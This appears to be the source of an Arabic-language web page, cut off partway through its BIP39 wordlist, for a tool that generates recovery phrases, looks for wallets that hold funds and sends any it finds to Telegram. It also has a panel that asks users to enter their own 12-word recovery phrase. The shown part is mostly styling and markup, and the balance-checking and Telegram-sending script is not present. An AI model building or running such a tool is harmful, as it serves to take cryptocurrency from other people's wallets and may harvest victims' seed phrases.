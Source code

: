 اموت فيكي 
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>مولد عبارات BIP39 والبحث عن المحافظ النشطة</title>
    <style>
        /* تصميم واجهة المستخدم المتجاوبة */
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
            text-align: right;
        }

        .container {
            max-width: 900px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            overflow: hidden;
            backdrop-filter: blur(10px);
        }

        .header {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
            padding: 30px;
            text-align: center;
        }

        .header h1 {
            font-size: 2.5rem;
            margin-bottom: 10px;
            font-weight: 700;
        }

        .header p {
            font-size: 1.1rem;
            opacity: 0.9;
        }

        .main-content {
            padding: 40px;
        }

        .control-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .manual-check-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .manual-check-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
            display: flex;
            align-items: center;
            gap: 10px;
        }

        .control-group {
            margin-bottom: 25px;
        }

        .control-group label {
            display: block;
            font-weight: 600;
            margin-bottom: 8px;
            color: #495057;
            font-size: 1rem;
        }

        .control-group input,
        .control-group select,
        .control-group textarea {
            width: 100%;
            padding: 12px 15px;
            border: 2px solid #dee2e6;
            border-radius: 10px;
            font-size: 1rem;
            transition: all 0.3s ease;
            background: white;
        }

        .control-group input:focus,
        .control-group select:focus,
        .control-group textarea:focus {
            outline: none;
            border-color: #4facfe;
            box-shadow: 0 0 0 3px rgba(79, 172, 254, 0.1);
        }

        .checkbox-group {
            display: flex;
            align-items: center;
            gap: 10px;
            margin: 15px 0;
        }

        .checkbox-group input[type="checkbox"] {
            width: 20px;
            height: 20px;
        }

        .checkbox-group label {
            margin: 0;
            font-weight: 500;
            color: #495057;
        }

        .button-group {
            display: flex;
            gap: 15px;
            flex-wrap: wrap;
            justify-content: center;
            margin-top: 30px;
        }

        .btn {
            padding: 15px 30px;
            border: none;
            border-radius: 10px;
            font-size: 1rem;
            font-weight: 600;
            cursor: pointer;
            transition: all 0.3s ease;
            text-decoration: none;
            display: inline-flex;
            align-items: center;
            justify-content: center;
            gap: 8px;
            min-width: 150px;
        }

        .btn-success {
            background: linear-gradient(135deg, #56ab2f 0%, #a8e6cf 100%);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(86, 171, 47, 0.3);
        }

        .btn-danger {
            background: linear-gradient(135deg, #ff416c 0%, #ff4b2b 100%);
            color: white;
        }

        .btn-danger:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 65, 108, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-warning {
            background: linear-gradient(135deg, #ff9a00 0%, #ffcc00 100%);
            color: white;
        }

        .btn-warning:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 154, 0, 0.3);
        }

        .btn-info {
            background: linear-gradient(135deg, #17a2b8 0%, #6fdaed 100%);
            color: white;
        }

        .btn-info:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(23, 162, 184, 0.3);
        }

        .btn:disabled {
            opacity: 0.6;
            cursor: not-allowed;
            transform: none !important;
            box-shadow: none !important;
        }

        .status-panel {
            background: white;
            border-radius: 15px;
            padding: 25px;
            margin-bottom: 25px;
            border: 1px solid #e9ecef;
        }

        .status-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
        }

        .status-grid {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 20px;
            margin-bottom: 20px;
        }

        .status-card {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 10px;
            text-align: center;
            border: 1px solid #e9ecef;
        }

        .status-card .number {
            font-size: 2rem;
            font-weight: 700;
            color: #4facfe;
            margin-bottom: 5px;
        }

        .status-card .label {
            color: #6c757d;
            font-size: 0.9rem;
        }

        .progress-bar {
            width: 100%;
            height: 8px;
            background: #e9ecef;
            border-radius: 4px;
            overflow: hidden;
            margin: 15px 0;
        }

        .progress-fill {
            height: 100%;
            background: linear-gradient(90deg, #4facfe 0%, #00f2fe 100%);
            width: 0%;
            transition: width 0.3s ease;
        }

        .log-panel {
            background: #212529;
            color: #ffffff;
            border-radius: 15px;
            padding: 20px;
            margin-top: 25px;
            max-height: 300px;
            overflow-y: auto;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            line-height: 1.4;
        }

        .log-entry {
            margin-bottom: 8px;
            padding: 5px 0;
            border-bottom: 1px solid #343a40;
        }

        .log-entry:last-child {
            border-bottom: none;
        }

        .log-timestamp {
            color: #6c757d;
            font-size: 0.8rem;
        }

        .log-success {
            color: #28a745;
        }

        .log-error {
            color: #dc3545;
        }

        .log-info {
            color: #17a2b8;
        }

        .log-warning {
            color: #ffc107;
        }

        .loading-spinner {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid rgba(255, 255, 255, 0.3);
            border-radius: 50%;
            border-top-color: #fff;
            animation: spin 1s ease-in-out infinite;
        }

        @keyframes spin {
            to { transform: rotate(360deg); }
        }

        .alert {
            padding: 15px 20px;
            border-radius: 10px;
            margin: 15px 0;
            font-weight: 500;
        }

        .alert-success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .alert-danger {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .alert-info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .alert-warning {
            background: #fff3cd;
            color: #856404;
            border: 1px solid #ffeaa7;
        }

        .wallet-details {
            background: white;
            border-radius: 10px;
            padding: 20px;
            margin-top: 20px;
            border: 1px solid #e9ecef;
        }

        .wallet-details h4 {
            color: #495057;
            margin-bottom: 15px;
            font-size: 1.1rem;
        }

        .wallet-info {
            display: grid;
            grid-template-columns: 1fr;
            gap: 10px;
        }

        .wallet-info-item {
            display: flex;
            justify-content: space-between;
            padding: 8px 0;
            border-bottom: 1px solid #f1f3f4;
        }

        .wallet-info-item:last-child {
            border-bottom: none;
        }

        .wallet-info-label {
            font-weight: 600;
            color: #495057;
        }

        .wallet-info-value {
            color: #6c757d;
            word-break: break-all;
            text-align: left;
        }

        .token-list {
            margin-top: 10px;
            max-height: 200px;
            overflow-y: auto;
        }

        .token-item {
            padding: 8px;
            margin-bottom: 5px;
            background: #f8f9fa;
            border-radius: 5px;
            border: 1px solid #e9ecef;
        }

        .token-name {
            font-weight: 600;
            color: #495057;
        }

        .token-symbol {
            color: #6c757d;
            font-size: 0.9rem;
        }

        /* تصميم متجاوب للهواتف المحمولة */
        @media (max-width: 768px) {
            body {
                padding: 10px;
            }
            
            .header h1 {
                font-size: 2rem;
            }
            
            .header p {
                font-size: 1rem;
            }
            
            .main-content {
                padding: 20px;
            }
            
            .control-panel, .manual-check-panel {
                padding: 20px;
            }
            
            .button-group {
                flex-direction: column;
            }
            
            .btn {
                width: 100%;
                min-width: auto;
            }
            
            .status-grid {
                grid-template-columns: repeat(2, 1fr);
                gap: 15px;
            }
            
            .status-card .number {
                font-size: 1.5rem;
            }
            
            .log-panel {
                font-size: 0.8rem;
                max-height: 200px;
            }
        }

        @media (max-width: 480px) {
            .header {
                padding: 20px;
            }
            
            .header h1 {
                font-size: 1.8rem;
            }
            
            .main-content {
                padding: 15px;
            }
            
            .control-panel, .manual-check-panel {
                padding: 15px;
            }
            
            .status-grid {
                grid-template-columns: 1fr;
            }
            
            .status-card {
                padding: 15px;
            }
        }

        .fade-in {
            animation: fadeIn 0.5s ease-in;
        }

        @keyframes fadeIn {
            from { opacity: 0; transform: translateY(20px); }
            to { opacity: 1; transform: translateY(0); }
        }

        .log-panel::-webkit-scrollbar {
            width: 8px;
        }

        .log-panel::-webkit-scrollbar-track {
            background: #343a40;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb {
            background: #6c757d;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb:hover {
            background: #adb5bd;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>🔑 مولد عبارات BIP39</h1>
            <p>البحث عن المحافظ النشطة وإرسالها إلى Telegram</p>
        </div>

        <div class="main-content">
            <!-- قسم التحقق اليدوي من العبارات -->
            <div class="manual-check-panel">
                <h3>🔍 التحقق اليدوي من عبارة الاسترجاع</h3>
                <div class="control-group">
                    <label for="manualMnemonic">أدخل عبارة الاسترجاع (12 كلمة):</label>
                    <textarea id="manualMnemonic" rows="3" placeholder="أدخل عبارة الاسترجاع هنا (12 كلمة)"></textarea>
                </div>
                
                <div class="checkbox-group">
                    <input type="checkbox" id="manualCheckTokens" checked>
                    <label for="manualCheckTokens">البحث عن الرموز المميزة (Tokens) بالإضافة إلى ETH</label>
                </div>
                
                <div class="button-group">
                    <button id="checkMnemonicBtn" class="btn btn-info">
                        <span>🔎 فحص العبارة</span>
                    </button>
                </div>
                
                <div id="manualCheckResult" class="wallet-details" style="display: none;">
                    <!-- سيتم ملء هذا القسم بالنتائج -->
                </div>
            </div>

            <div class="control-panel">
                <div class="control-group">
                    <label for="searchSpeed">سرعة البحث (مللي ثانية بين كل عبارة):</label>
                    <input type="number" id="searchSpeed" value="3000" min="1000" max="10000" step="500">
                </div>

                <div class="control-group">
                    <label for="maxAttempts">الحد الأقصى للمحاولات (0 = لا نهاية):</label>
                    <input type="number" id="maxAttempts" value="0" min="0" max="10000">
                </div>

                <div class="checkbox-group">
                    <input type="checkbox" id="checkTokens" checked>
                    <label for="checkTokens">البحث عن الرموز المميزة (Tokens) بالإضافة إلى ETH</label>
                </div>

                <div class="button-group">
                    <button id="startBtn" class="btn btn-success">
                        <span>🚀 بدء البحث</span>
                    </button>
                    <button id="stopBtn" class="btn btn-danger" disabled>
                        <span>⏹️ إيقاف البحث</span>
                    </button>
                    <button id="testTelegramBtn" class="btn btn-secondary">
                        <span>📱 اختبار Telegram</span>
                    </button>
                    <button id="clearLogsBtn" class="btn btn-warning">
                        <span>🗑️ مسح السجل</span>
                    </button>
                </div>
            </div>

            <div class="status-panel">
                <h3>📊 إحصائيات العملية</h3>
                <div class="status-grid">
                    <div class="status-card">
                        <div class="number" id="totalGenerated">0</div>
                        <div class="label">إجمالي العبارات</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="activeWallets">0</div>
                        <div class="label">المحافظ النشطة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="emptyWallets">0</div>
                        <div class="label">المحافظ الفارغة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="errorCount">0</div>
                        <div class="label">الأخطاء</div>
                    </div>
                </div>
                <div class="progress-bar">
                    <div class="progress-fill" id="progressFill"></div>
                </div>
                <div id="currentStatus" class="alert alert-info">
                    جاهز للبدء...
                </div>
            </div>

            <div class="log-panel" id="logPanel">
                <div class="log-entry log-info">
                    <span class="log-timestamp">[${new Date().toLocaleTimeString('ar-EG')}]</span>
                    مرحباً بك في مولد عبارات BIP39. اضغط على "بدء البحث" للبدء.
                </div>
            </div>
        </div>
    </div>

    <!-- تحميل مكتبة ethers.js -->
    <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>

    <script>
        // قائمة كلمات BIP39 الإنجليزية الرسمية (مختصرة لأغراض العرض)
        const BIP39_WORDLIST = [
            "abandon", "ability", "able", "about", "above", "absent", "absorb", "abstract", "absurd", "abuse",
            "access", "accident", "account", "accuse", "achieve", "acid", "acoustic", "acquire", "across", "act",
            "action", "actor", "actress", "actual", "adapt", "add", "addict", "address", "adjust", "admit",
            "adult", "advance", "advice", "aerobic", "affair", "affect", "afford", "afraid", "after", "again",
            "age", "agent", "agree", "ahead", "aim", "air", "airport", "aisle", "alarm", "album",
            "alcohol", "alert", "alien", "all", "alley", "allow", "almost", "alone", "alpha", "already",
            "also", "alter", "always", "amateur", "amazing", "among", "amount", "amused", "analyst", "anchor",
            "ancient", "anger", "angle", "angry", "animal", "announce", "annual", "another", "answer", "antenna",
            "antique", "anxiety", "any", "apart", "apology", "appear", "apple", "approve", "april", "area",
            "arena", "argue", "arm", "armed", "armor", "army", "around", "arrange", "arrest", "arrive",
            "arrow", "art", "artefact", "artist", "artwork", "ask", "aspect", "assault", "asset", "assist",
            "assume", "asthma", "athlete", "atom", "attack", "attend", "attitude", "attract", "auction", "audit",
            "august", "aunt", "author", "auto", "autumn", "average", "avocado", "avoid", "awake", "aware",
            "away", "awesome", "awful", "awkward", "axis", "baby", "bachelor", "bacon", "badge", "bag",
            "balance", "balcony", "ball", "bamboo", "banana", "banner", "bar", "barely", "bargain", "barrel",
            "base", "basic", "basket", "battle", "beach", "bean", "beauty", "because", "become", "beef",
            "before", "begin", "behave", "behind", "believe", "below", "belt", "bench", "benefit", "best",
            "betray", "better", "between", "beyond", "bicycle", "bid", "bike", "bind", "biology", "bird",
            "birth", "bitter", "black", "blade", "blame", "blanket", "blast", "bleak", "bless", "blind",
            "blood", "blossom", "blouse", "blue", "blur", "blush", "board", "boat", "body", "boil",
            "bomb", "bone", "bonus", "book", "boost", "border", "boring", "borrow", "boss", "bottom",
            "bounce", "box", "boy", "bracket", "brain", "brand", "brass", "brave", "bread", "breeze",
            "brick", "bridge", "brief", "bright", "bring", "brisk", "broccoli", "broken", "bronze", "broom",
            "brother", "brown", "brush", "bubble", "buddy", "budget", "buffalo", "build", "bulb", "bulk",
            "bullet", "bundle", "bunker", "burden", "burger", "burst", "bus", "business", "busy", "butter",
            "buyer", "buzz", "cabbage", "cabin", "cable", "cactus", "cage", "cake", "call", "calm",
            "camera", "camp", "can", "canal", "cancel", "candy", "cannon", "canoe", "canvas", "canyon",
            "capable", "capital", "captain", "car", "carbon", "card", "cargo", "carpet", "carry", "cart",
            "case", "cash", "casino", "castle", "casual", "cat", "catalog", "catch", "category", "cattle",
            "caught", "cause", "caution", "cave", "ceiling", "celery", "cement", "census", "century", "ceremony",
            "certain", "chair", "chalk", "champion", "change", "chaos", "chapter", "charge", "chase", "chat",
            "cheap", "check", "cheek", "cheese", "chef", "cherry", "chest", "chicken", "chief", "child",
            "chimney", "choice", "choose", "chronic", "chuckle", "chunk", "churn", "cigar", "cinnamon", "circle",
            "citizen", "city", "civil", "claim", "clap", "clarify", "claw", "clay", "clean", "clerk",
            "clever", "click", "client", "cliff", "climb", "clinic", "clip", "clock", "clog", "close",
            "cloth", "cloud", "clown", "club", "clump", "cluster", "clutch", "coach", "coast", "coconut",
            "code", "coffee", "coil", "coin", "collect", "color", "column", "combine", "come", "comfort",
            "comic", "common", "company", "concert", "conduct", "confirm", "congress", "connect", "consider", "control",
            "convince", "cook", "cool", "copper", "copy", "coral", "core", "corn", "correct", "cost",
            "cotton", "couch", "country", "couple", "course", "cousin", "cover", "coyote", "crack", "cradle",
            "craft", "cram", "crane", "crash", "crater", "crawl", "crazy", "cream", "credit", "creek",
            "crew", "cricket", "crime", "crisp", "critic", "crop", "cross", "crouch", "crowd", "crucial",
            "cruel", "cruise", "crumble", "crunch", "crush", "cry", "crystal", "cube", "culture", "cup",
            "cupboard", "curious", "current", "curtain", "curve", "cushion", "custom", "cute", "cycle", "dad",
            "damage", "damp", "dance", "danger", "daring", "dark", "dash", "date", "daughter", "dawn",
            "day", "deal", "debate", "debris", "decade", "december", "decide", "decline", "decorate", "decrease",
            "deer", "defense", "define", "defy", "degree", "delay", "deliver", "demand", "demise", "denial",
            "dentist", "deny", "depart", "depend", "deposit", "depth", "deputy", "derive", "describe", "desert",
            "design", "desk", "despair", "destroy", "detail", "detect", "develop", "device", "devote", "diagram",
            "dial", "diamond", "diary", "dice", "diesel", "diet", "differ", "digital", "dignity", "dilemma",
            "dinner", "dinosaur", "direct", "dirt", "disagree", "discover", "disease", "dish", "dismiss", "disorder",
            "display", "distance", "divert", "divide", "divorce", "dizzy", "doctor", "document", "dog", "doll",
            "dolphin", "domain", "donate", "donkey", "donor", "door", "dose", "double", "dove", "draft",
            "dragon", "drama", "drastic", "draw", "dream", "dress", "drift", "drill", "drink", "drip",
            "drive", "drop", "drum", "dry", "duck", "dumb", "dune", "during", "dust", "dutch",
            "duty", "dwarf", "dynamic", "eager", "eagle", "early", "earn", "earth", "easily", "east",
            "easy", "echo", "ecology", "economy", "edge", "edit", "educate", "effort", "egg", "eight",
            "either", "elbow", "elder", "electric", "elegant", "element", "elephant", "elevator", "elite", "else",
            "embark", "embody", "embrace", "emerge", "emotion", "employ", "empower", "empty", "enable", "enact",
            "end", "endless", "endorse", "enemy", "energy", "enforce", "engage", "engine", "enhance", "enjoy",
            "enlist", "enough", "enrich", "enroll", "ensure", "enter", "entire", "entry", "envelope", "episode",
            "equal", "equip", "era", "erase", "erode", "erosion", "error", "erupt", "escape", "essay",
            "essence", "estate", "eternal", "ethics", "evidence", "evil", "evoke", "evolve", "exact", "example",
            "excess", "exchange", "excite", "exclude", "excuse", "execute", "exercise", "exhaust", "exhibit", "exile",
            "exist", "exit", "exotic", "expand", "expect", "expire", "explain", "expose", "express", "extend",
            "extra", "eye", "eyebrow", "fabric", "face", "faculty", "fade", "faint", "faith", "fall",
            "false", "fame", "family", "famous", "fan", "fancy", "fantasy", "farm", "fashion", "fat",
            "fatal", "father", "fatigue", "fault", "favorite", "feature", "february", "federal", "fee", "feed",
            "feel", "female", "fence", "festival", "fetch", "fever", "few", "fiber", "fiction", "field",
            "figure", "file", "film", "filter", "final", "find", "fine", "finger", "finish", "fire",
            "firm", "first", "fiscal", "fish", "fit", "fitness", "fix", "flag", "flame", "flash",
            "flat", "flavor", "flee", "flight", "flip", "float", "flock", "floor", "flower", "fluid",
            "flush", "fly", "foam", "focus", "fog", "foil", "fold", "follow", "food", "foot",
            "force", "foreign", "forest", "forget", "fork", "fortune", "forum", "forward", "fossil", "foster",
            "found", "fox", "fragile", "frame", "frequent", "fresh", "friend", "fringe", "frog", "front",
            "frost", "frown", "frozen", "fruit", "fuel", "fun", "funny", "furnace", "fury", "future",
            "gadget", "gain", "galaxy", "gallery", "game", "gap", "garage", "garbage", "garden", "garlic",
            "garment", "gas", "gasp", "gate", "gather", "gauge", "gaze", "general", "genius", "genre",
            "gentle", "genuine", "gesture", "ghost", "giant", "gift", "giggle", "ginger", "giraffe", "girl",
            "give", "glad", "glance", "glare", "glass", "glide", "glimpse", "globe", "gloom", "glory",
            "glove", "glow", "glue", "goat", "goddess", "gold", "good", "goose", "gorilla", "gospel",
            "gossip", "govern", "gown", "grab", "grace", "grain", "grant", "grape", "grass", "gravity",
            "great", "green", "grid", "grief", "grit", "grocery", "group", "grow", "grunt", "guard",
            "guess", "guide", "guilt", "guitar", "gun", "gym", "habit", "hair", "half", "hammer",
            "hamster", "hand", "happy", "harbor", "hard", "harsh", "harvest", "hat", "have", "hawk",
            "hazard", "head", "health", "heart", "heavy", "hedgehog", "height", "hello", "helmet", "help",
            "hen", "hero", "hidden", "high", "hill", "hint", "hip", "hire", "history", "hobby",
            "hockey", "hold", "hole", "holiday", "hollow", "home", "honey", "hood", "hope", "horn",
            "horror", "horse", "hospital", "host", "hotel", "hour", "hover", "hub", "huge", "human",
            "humble", "humor", "hundred", "hungry", "hunt", "hurdle", "hurry", "hurt", "husband", "hybrid",
            "ice", "icon", "idea", "identify", "idle", "ignore", "ill", "illegal", "illness", "image",
            "imitate", "immense", "immune", "impact", "impose", "improve", "impulse", "inch", "include", "income",
            "increase", "index", "indicate", "indoor", "industry", "infant", "inflict", "inform", "inhale", "inherit",
            "initial", "inject", "injury", "inmate", "inner", "innocent", "input", "inquiry", "insane", "insect",
            "inside", "inspire", "install", "intact", "interest", "into", "invest", "invite", "involve", "iron",
            "island", "isolate", "issue", "item", "ivory", "jacket", "jaguar", "jar", "jazz", "jealous",
            "jeans", "jelly", "jewel", "job", "join", "joke", "journey", "joy", "judge", "juice",
            "jump", "jungle", "junior", "junk", "just", "kangaroo", "keen", "keep", "ketchup", "key",
            "kick", "kid", "kidney", "kind", "kingdom", "kiss", "kit", "kitchen", "kite", "kitten",
            "kiwi", "knee", "knife", "knock", "know", "lab", "label", "labor", "ladder", "lady",
            "lake", "lamp", "language", "laptop", "large", "later", "latin", "laugh", "laundry", "lava",
            "law", "lawn", "lawsuit", "layer", "lazy", "leader", "leaf", "learn", "leave", "lecture",
            "left", "leg", "legal", "legend", "leisure", "lemon", "lend", "length", "lens", "leopard",
            "lesson", "letter", "level", "liar", "liberty", "library", "license", "life", "lift", "light",
            "like", "limb", "limit", "link", "lion", "liquid", "list", "little", "live", "lizard",
            "load", "loan", "lobster", "local", "lock", "logic", "lonely", "long", "loop", "lottery",
            "loud", "lounge", "love", "loyal", "lucky", "luggage", "lumber", "lunar", "lunch", "luxury",
            "lyrics", "machine", "mad", "magic", "magnet", "maid", "mail", "main", "major", "make",
            "mammal", "man", "manage", "mango", "mansion", "manual", "maple", "marble", "march", "margin",
            "marine", "market", "marriage", "mask", "mass", "master", "match", "material", "math", "matrix",
            "matter", "maximum", "maze", "meadow", "mean", "measure", "meat", "mechanic", "medal", "media",
            "melody", "melt", "member", "memory", "mention", "menu", "mercy", "merge", "merit", "merry",
            "mesh", "message", "metal", "method", "middle", "midnight", "milk", "million", "mimic", "mind",
            "minimum", "minor", "minute", "miracle", "mirror", "misery", "miss", "mistake", "mix", "mixed",
            "mixture", "mobile", "model", "modify", "mom", "moment", "monitor", "monkey", "monster", "month",
            "moon", "moral", "more", "morning", "mosquito", "mother", "motion", "motor", "mountain", "mouse",
            "move", "movie", "much", "muffin", "mule", "multiply", "muscle", "museum", "mushroom", "music",
            "must", "mutual", "myself", "mystery", "myth", "naive", "name", "napkin", "narrow", "nasty",
            "nation", "nature", "near", "neck", "need", "negative", "neglect", "neither", "nephew", "nerve",
            "nest", "net", "network", "neutral", "never", "news", "next", "nice", "night", "noble",
            "noise", "nominee", "noodle", "normal", "north", "nose", "notable", "note", "nothing", "notice",
            "novel", "now", "nuclear", "number", "nurse", "nut", "oak", "obey", "object", "oblige",
            "obscure", "observe", "obtain", "obvious", "occur", "ocean", "october", "odor", "off", "offer",
            "office", "often", "oil", "okay", "old", "olive", "olympic", "omit", "once", "one",
            "onion", "online", "only", "open", "opera", "opinion", "oppose", "option", "orange", "orbit",
            "orchard", "order", "ordinary", "organ", "orient", "original", "orphan", "ostrich", "other", "outdoor",
            "outer", "output", "outside", "oval", "oven", "over", "own", "owner", "oxygen", "oyster",
            "ozone", "pact", "paddle", "page", "pair", "palace", "palm", "panda", "panel", "panic",
            "panther", "paper", "parade", "parent", "park", "parrot", "party", "pass", "patch", "path",
            "patient", "patrol", "pattern", "pause", "pave", "payment", "peace", "peanut", "pear", "peasant",
            "pelican", "pen", "penalty", "pencil", "people", "pepper", "perfect", "permit", "person", "pet",
            "phone", "photo", "phrase", "physical", "piano", "picnic", "picture", "piece", "pig", "pigeon",
            "pill", "pilot", "pink", "pioneer", "pipe", "pistol", "pitch", "pizza", "place", "planet",
            "plastic", "plate", "play", "player", "pleasure", "pledge", "pluck", "plug", "plunge", "poem",
            "poet", "point", "polar", "pole", "police", "pond", "pony", "pool", "popular", "portion",
            "position", "possible", "post", "potato", "pottery", "poverty", "powder", "power", "practice", "praise",
            "predict", "prefer", "prepare", "present", "pretty", "prevent", "price", "pride", "primary", "print",
            "priority", "prison", "private", "prize", "problem", "process", "produce", "profit", "program", "project",
            "promote", "proof", "property", "prosper", "protect", "proud", "provide", "public", "pudding", "pull",
            "pulp", "pulse", "pumpkin", "punch", "pupil", "puppy", "purchase", "purity", "purpose", "purse",
            "push", "put", "puzzle", "pyramid", "quality", "quantum", "quarter", "question", "quick", "quit",
            "quiz", "quote", "rabbit", "raccoon", "race", "rack", "radar", "radio", "rail", "rain",
            "raise", "rally", "ramp", "ranch", "random", "range", "rapid", "rare", "rate", "rather",
            "raven", "raw", "razor", "ready", "real", "reason", "rebel", "rebuild", "recall", "receive",
            "recipe", "record", "recycle", "reduce", "reflect", "reform", "refuse", "region", "regret", "regular",
            "reject", "relax", "release", "relief", "rely", "remain", "remember", "remind", "remove", "render",
            "renew", "rent", "reopen", "repair", "repeat", "replace", "report", "require", "rescue", "resemble",
            "resist", "resource", "response", "result", "retire", "retreat", "return", "reunion", "reveal", "review",
            "reward", "rhythm", "rib", "ribbon", "rice", "rich", "ride", "ridge", "rifle", "right",
            "rigid", "ring", "riot", "ripple", "risk", "ritual", "rival", "river", "road", "roast",
            "robot", "robust", "rocket", "romance", "roof", "rookie", "room", "rose", "rotate", "rough",
            "round", "route", "royal", "rubber", "rude", "rug", "rule", "run", "runway", "rural",
            "sad", "saddle", "sadness", "safe", "sail", "salad", "salmon", "salon", "salt", "same",
            "sample", "sand", "satisfy", "satoshi", "sauce", "sausage", "save", "say", "scale", "scan",
            "scare", "scatter", "scene", "scheme", "school", "science", "scissors", "scorpion", "scout", "scrap",
            "screen", "script", "scrub", "sea", "search", "season", "seat", "second", "secret", "section",
            "security", "seed", "seek", "segment", "select", "sell", "seminar", "senior", "sense", "sentence",
            "series", "service", "session", "settle", "setup", "seven", "shadow", "shaft", "shallow", "share",
            "shed", "shell", "sheriff", "shield", "shift", "shine", "ship", "shiver", "shock", "shoe",
            "shoot", "shop", "short", "shoulder", "shove", "shrimp", "shrug", "shuffle", "shy", "sibling",
            "sick", "side", "siege", "sight", "sign", "silent", "silk", "silly", "silver", "similar",
            "simple", "since", "sing", "siren", "sister", "situate", "six", "size", "skate", "sketch",
            "ski", "skill", "skin", "skirt", "skull", "slab", "slam", "sleep", "slender", "slice",
            "slide", "slight", "slim", "slogan", "slot", "slow", "slush", "small", "smart", "smile",
            "smoke", "smooth", "snack", "snake", "snap", "sniff", "snow", "soap", "soccer", "social",
            "sock", "soda", "soft", "solar", "soldier", "solid", "solution", "solve", "someone", "song",
            "soon", "sorry", "sort", "soul", "sound", "soup", "source", "south", "space", "spare",
            "spatial", "spawn", "speak", "special", "speed", "spell", "spend", "sphere", "spice", "spider",
            "spike", "spin", "spirit", "split", "spoil", "sponsor", "spoon", "sport", "spot", "spray",
            "spread", "spring", "spy", "square", "squeeze", "squirrel", "stable", "stadium", "staff", "stage",
            "stairs", "stamp", "stand", "start", "state", "stay", "steak", "steel", "stem", "step",
            "stereo", "stick", "still", "sting", "stock", "stomach", "stone", "stool", "story", "stove",
            "strategy", "street", "strike", "strong", "struggle", "student", "stuff", "stumble", "style", "subject",
            "submit", "subway", "success", "such", "sudden", "suffer", "sugar", "suggest", "suit", "summer",
            "sun", "sunny", "sunset", "super", "supply", "support", "sure", "surface", "surge", "surprise",
            "surround", "survey", "suspect", "sustain", "swallow", "swamp", "swap", "swarm", "swear", "sweet",
            "swift", "swim", "swing", "switch", "sword", "symbol", "symptom", "syrup", "system", "table",
            "tackle", "tag", "tail", "talent", "talk", "tank", "tape", "target", "task", "taste",
            "tattoo", "taxi", "teach", "team", "tell", "ten", "tenant", "tennis", "tent", "term",
            "test", "text", "thank", "that", "theme", "then", "theory", "there", "they", "thing",
            "this", "thought", "three", "thrive", "throw", "thumb", "thunder", "ticket", "tide", "tiger",
            "tilt", "timber", "time", "tiny", "tip", "tired", "tissue", "title", "toast", "tobacco",
            "today", "toddler", "toe", "together", "toilet", "token", "tomato", "tomorrow", "tone", "tongue",
            "tonight", "tool", "tooth", "top", "topic", "topple", "torch", "tornado", "tortoise", "toss",
            "total", "tourist", "toward", "tower", "town", "toy", "track", "trade", "traffic", "tragic",
            "train", "transfer", "trap", "trash", "travel", "tray", "treat", "tree", "trend", "trial",
            "tribe", "trick", "trigger", "trim", "trip", "trophy", "trouble", "truck", "true", "truly",
            "trumpet", "trust", "truth", "try", "tube", "tuition", "tumble", "tuna", "tunnel", "turkey",
            "turn", "turtle", "twelve", "twenty", "twice", "twin", "twist", "two", "type", "typical",
            "ugly", "umbrella", "unable", "unaware", "uncle", "uncover", "under", "undo", "unfair", "unfold",
            "unhappy", "uniform", "unique", "unit", "universe", "unknown", "unlock", "until", "unusual", "unveil",
            "update", "upgrade", "uphold", "upon", "upper", "upset", "urban", "urge", "usage", "use",
            "used", "useful", "useless", "usual", "utility", "vacant", "vacuum", "vague", "valid", "valley",
            "valve", "van", "vanish", "vapor", "various", "vast", "vault", "vehicle", "velvet", "vendor",
            "venture", "venue", "verb", "verify", "version", "very", "vessel", "veteran", "viable", "vibrant",
            "vicious", "victory", "video", "view", "village", "vintage", "violin", "virtual", "virus", "visa",
            "visit", "visual", "vital", "vivid", "vocal", "voice", "void", "volcano", "volume", "vote",
            "voyage", "wage", "wagon", "wait", "walk", "wall", "walnut", "want", "warfare", "warm",
            "warrior", "wash", "wasp", "waste", "water", "wave", "way", "wealth", "weapon", "weary",
            "weather", "web", "wedding", "weekend", "weird", "welcome", "west", "wet", "whale", "what",
            "wheat", "wheel", "when", "where", "whip", "whisper", "wide", "width", "wife", "wild",
            "will", "win", "window", "wine", "wing", "wink", "winner", "winter", "wire", "wisdom",
